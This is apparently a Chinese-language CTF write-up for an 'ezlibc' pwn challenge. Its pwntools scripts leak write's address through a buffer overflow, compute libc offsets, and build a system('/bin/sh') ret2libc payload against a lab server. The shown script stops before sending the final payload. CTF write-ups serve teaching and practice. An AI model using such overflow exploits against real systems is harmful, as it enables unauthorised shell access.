 可以看到dofunc的地址就在0x80491B6

简单测试一下拿到write的地址的过程

```
from pwn import *context(arch='i386', os='linux',log_level="debug")io=process('./ezlibc')elf=ELF('./ezlibc')libc=ELF('./libc-2.31.so')write_plt_addr = elf.plt["write"]write_got_addr = elf.got["write"]main_addr = 0x80491B6io.recvuntil(b"Hello, there is a ez libc test!!!input:")io.sendline(b'a'*20+p32(write_plt_addr)+p32(0x80491B6)+p32(1)+p32(write_got_addr)+p32(4))io.recvuntil(b'byebye')write_addr=u32(io.recv(4))print(hex(write_addr))io.interactive()
```

![](./images/image-125.png)

可以看到成功获取到write的地址，接下来就是进行计算偏移量

```
base_addr = write_addr - write_offset
system_addr = base_addr + system_offset
binsh_addr = base_addr + binsh_offset
```

然后的话就是进行发送payload

```
io.sendline(b'a'*20+p32(system_addr)+p32(1)+p32(binsh_addr))=
```

格式是和最开始的一样，这里1是system函数的返回地址，不重要，binsh是函数的参数

完整的代码如下

```
from pwn import *

context(arch='i386', os='linux',log_level="debug")

#io=process('./ezlibc')
io=remote('node4.anna.nssctf.cn', 28566)
elf=ELF('./ezlibc')
libc=ELF('./libc-2.31.so')

write_plt_addr = elf.plt["write"]
write_got_addr = elf.got["write"]
main_addr = 0x80491B6

io.recvuntil(b"Hello, there is a ez libc test!!!input:")
io.sendline(b'a'*20+p32(write_plt_addr)+p32(0x80491B6)+p32(1)+p32(write_got_addr)+p32(4))
io.recvuntil(b'byebye')
write_addr=u32(io.recv(4))

system_offset = libc.symbols['system']
binsh_offset = next(libc.search('/bin/sh'))
write_offset = libc.symbols['write']

base_addr = write_addr - write_offset
system_addr = base_addr + system_offset
```